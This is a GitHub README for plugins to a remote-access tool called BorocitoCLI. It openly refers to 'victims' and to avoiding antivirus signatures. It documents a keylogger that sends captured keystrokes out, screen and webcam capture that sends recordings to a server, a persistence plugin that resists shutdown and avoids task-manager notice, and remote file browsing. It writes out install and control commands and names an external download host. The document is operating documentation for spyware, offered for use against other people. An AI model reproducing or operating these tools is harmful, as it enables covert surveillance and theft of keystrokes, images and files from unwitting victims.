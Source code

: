 # borocito-components
Complementos para Borocito CLI  

## Complements
These plugins were created to enrich the experience with BorocitoCLI.  

They're not perfect, but they're not disappointing either. Well, it really depends on how they're made. I invite you to contribute to the development of these, if there is something, an error, bug, an idea, etc, contribute, I will greatly appreciate it, and those of us who use these complements too.  

### Using it
All plugins here were created by Zhenboro. Yeah, and besides the fact that I made them, they need to be installed by 'boro-get'.  
boro-get is a module within BorocitoCLI. It's totally inside, well implemented. So, initially, there should be no problem.  

### About
BORO-GET tries to solve the following problem: Avoid over-loading the distributable executable. In addition, this gives freedom to create your own supplements and install them remotely. Total control. If you need a function, you can program it and implement it for yourself.  
Not only that, we also avoid the signature of the antivirus. Well, for example, Brokiloger is very suspicious, it is a keys recorder. Thus the antivirus could only block that complement, but, not the instance of Borocito.

### Repository
On the server, the Boro-Get folder is where everything boro-get will use.
You can leave the files that are within boron-get as they were when you downloaded them, this will make my repository be used located in my inventible "chemic-jug" server.   
Also, if you want my server to provide you with the repository, you must modify the file 'GlobalSettingS.ini' that is in the Borocito Server-side root folder.   

I really recommend you use my repository, upload updates with improvements, etc. So you avoid having to update your repository.  

**Remember: it's just a repository. I can not steal the victims and either receive files either. It's just read-only**  
### boro-get
This must be installed, by default it is not implemented. It should be installed using the command `boro-get install`, to check if it is installed or not, use `boro-get status`, if it is already installed, great!  
Now, if you want to be sure the latest version is installed, use `boro-get uninstall`, that will uninstall boro-get. Then you can use the `boro-get install` command to download and install the latest version available on the server indicated in the file: GlobalSettings.ini and the file boro-get.txt thats inside boro-get.zip file (/Boro-Get/boro-get.zip)  

```sh
[Components]
boro-get=http://chemic-jug.000webhostapp.com/Borocito/Boro-Get/boro-get.zip
```  
Now that boro-get is installed. We can start installing and using the packages.  

We can install a package with the command `boro-get <package> <start?> <parameters>`  
An example with broKiloger:  
`boro-get broKiloger True /startrecording`  
If the package does not require an argument:  
`boro-get broKiloger`  
(<start?> will be marked as True, the package will start)  

If you don't want to start it (just download and install it)  
`boro-get broKiloger False null`  

>NOTE: 'null' is a reserved word, it will be very useful!  

Now, lets get info about a component, with the command:  
`boro-get <package> status`  
so, an example will be:  
`boro-get broKiloger status`  
You will get information about the component. boro-hear MUST BE INSTALLED.  

Now we are going to define a concept.  
**Single Instance Package**: A package with this warning means that only one instance of it will be started. Just one.  
These are designed to do unique unrepeatable things. Like a keylogger. This is something global, why another instance?  
Also, they can receive parameters when they are already started, so you can control them.  

### boro-hear
boro-hear is a module that allows plugins to communicate (one-way C->S) with the Control Panel.  

If you make a plugin, you can make it send messages to the control panel. In your code you should put something like [this code](https://github.com/Zhenboro/borocito-components/blob/e7eda70b99cfcfa2ea3a66223cc3564703051f29/broKiloger/Utility.vb#L8-L51).  
That will start an instance of boro-hear which will send your message to the server. boro-hear is single-instance, but messages can be sent by passing parameters to it. These are picked up by boro-hear via the StartUpNextInstance event.  


### broEstoraje
It is used to explore files. Basically [RMTFS](https://github.com/Zhenboro/RMTFS) adapted to work with FTP (or IDFTP).  


### broKiloger
broKiloger is a plugin dedicated to logging keys.  

> NOTE: Single Instance Package  

Your options are:  
```sh
/startrecording: It will start key recording.
boro-get broKiloger True /startrecording
```
```sh  
/stoprecording: It will stop the key recording and broKiloger will close.  
boro-get broKiloger True /stoprecording  
```
> NOTE: It will not save or send the record.  

```sh
/sendrecord: It will send the keylogger and then start recording again.
boro-get broKiloger True /sendrecord
```  

```sh
/resetrecord: It will clean the keylogger.
boro-get broKiloger True /resetrecord
```  
> NOTE: It will not save or send the record.  

```sh
/sendandexit: It will send the keylogging and then broKiloger will close.
boro-get broKiloger True /sendandexit
```  

Can't undestand a shit? [Key mapping for broKiloger keylog](https://chemic-jug.000webhostapp.com/Borocito/Mapeo_Teclas_Kiloger.txt)

### broRescue
This plugin was created because it turns out that sometimes an instance of BorocitoCLI can be closed by some external or internal factor. Perhaps the user noticed the presence and closed it, or, a command left a mess that BorocitoCLI couldn't handle.  
For this reason, broRescue is a good recommendation that it be installed.  
**And what does it do?**  
Well it's simple. If you notice that BorocitoCLI has closed. You can make broRescue restart the BorocitoCLI instance by using the command:  
`broRescue Borocito`  
and not only that, you can also start the extractor, or the updater.  
To do this, the commands will be:  
`broRescue Extractor`  
`broRescue Updater`  
Or even restart the computer with the command:  
`broRescue Restart`  
And, you can also try to prevent the computer from being turned off. with `broRescue NoShutdown` to avoid or, `YesShutdown` to not try to avoid.  
This packet reads directly from the server. Every 5 minutes. So yes, you will notice the effect in 5 minutes. And that is done so as not to load the server, and also so that it is not noticed from the task manager.  

This comp will start with windows.  

### broScrincam

This plugin is for:  
- Take photos from a Webcam (not coded yet)  
- Record video from a Webcam (not coded yet)  
- Record screen  

> NOTE: Single Instance Package  

```sh
/startscreenrecording: Will start to record the screen.
boro-get broScrincam True /startscreenrecording
```  

```sh
/stopscreenrecording: It is supposed to stop screen recording. 
boro-get broScrincam True /stopscreenrecording
```  
> NOTE: It will not save or send the record.

```sh
/sendscreenrecord: It stop, save and send the screen recording.
boro-get broScrincam True /sendscreenrecord
```  

```sh
/startcamrecording: It will start to record video from the webcam
boro-get broScrincam True /startcamrecording
```  

```sh
/takecampicture: It will take a screenshot of the webcam
boro-get broScrincam True /takecampicture
```  
> NOTE: It will be sent automatically.  

```sh
/stopcamrecording: It will stop the Webcam recording.
boro-get broScrincam True /stopcamrecording
```  
> NOTE: It will not save or send the record.  

```sh
/sendcamrecord: It will stop the Webcam recording and send it automatically.
boro-get broScrincam True /sendcamrecord
```
> NOTE: It will be sent automatically.

```sh
/stop: It will send the keylogger and then start recording again.
boro-get broScrincam True /stop
```

## Uninstalling a package
To uninstall, remove a package, the following points must be taken into account.
- The plugin MUST BE CLOSED. There should not be an instance of this. Read the documentation to know how to close it. *Anyways, boro-get will try to stop the plugin, but this might fail.*  
- All data from this plugin, recordings, files, etc. will be deleted.  
- They can be reinstalled, don't worry about it.  

To uninstall, use the `boro-get <package> uninstall` command.  
An example with broKiloger would be:  
`boro-get broKiloger uninstall`  

### WARNING
**The plugins created are not perfect. I recommend you take a look at the code to know what it does and how it does it, so you avoid unpredictable behavior or bad practices.**
